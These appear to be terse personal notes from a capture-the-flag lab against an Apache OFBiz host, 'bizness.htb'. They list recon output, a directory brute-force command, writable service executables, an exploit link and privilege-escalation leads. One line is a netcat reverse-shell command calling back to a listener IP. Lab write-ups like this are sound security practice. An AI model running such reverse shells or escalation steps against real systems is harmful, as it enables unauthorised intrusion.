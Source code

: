 SSH-2.0-OpenSSH_8.4p1 Debian-5+deb11u3
Powered by Apache OFBiz Release 18.12
nc -e /bin/bash 10.10.14.247 4444
dirsearch -u https://bizness.htb

user: ofbiz
sudo: 1.9.5p2

/etc/systemd/system/multi-user.target.wants/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew
/etc/systemd/system/multi-user.target.wants/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew
/etc/systemd/system/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew
/etc/systemd/system/ofbiz.service is calling this writable executable: /opt/ofbiz/gradlew

https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass - User flag

TODO: 

- CVE-2021-3490
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation#credentials-from-process-memory